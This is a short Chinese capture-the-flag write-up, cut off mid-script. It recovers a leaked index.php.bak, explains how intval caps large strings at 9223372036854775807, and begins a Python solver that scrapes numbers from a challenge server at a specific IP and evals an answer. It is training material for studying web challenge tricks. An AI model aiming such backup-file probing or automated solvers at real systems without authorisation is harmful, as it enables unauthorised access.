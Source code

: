 源码中说源码泄露，扫目录除了发现几个没用的js以外没发现任何有用的东西

看wp发现是`index.php.bak`

```php
<?php
if(isset($_SESSION['ans']) && isset($_POST['ans'])){
	if(($_SESSION['ans'])+intval($_POST['input'])!=$_POST['ans']){
		session_destroy();
		echo '
		<script language="javascript">  
		alert("怎么没算对呢？");  
		window.history.back(-1);  </script>';
	}
	else{
		if(intval(time())-$_SESSION['time']<1){
			session_destroy();
			echo '
			<script language="javascript">  
			alert("你手速太快啦，服务器承受不住!!!");  
			window.history.back(-1); </script> ';
		}
		if(intval(time())-$_SESSION['time']>2){
			session_destroy();
			echo '
			<script language="javascript">  
			alert("你算的太慢了少年！");  
			window.history.back(-1); </script> ';
		}
		echo '
		<script language="javascript">  
		alert("tql，算对了！！");  
	     </script> ';
		$_SESSION['count']++;
	}
}
?>
```

时间在**1~2s**，且用了**intval**防止溢出

```php
<?php 
echo intval('4200000000000000000000');#注意是字符串
?>
9223372036854775807
```

写出exp

```python
import requests
import time

url = 'http://1.14.71.254:28485/'
session=requests.session()
r = session.get(url = url)
a = 0
payload = ''
while(1):
    while(1):
        a = r.text.find('<div style="display:inline;">', a + 1)
        print(a)
        if a == -1:
            break
        payload += r.text[a+29]
    b = eval('9223372036854775807 + ' + payload[:-1])
```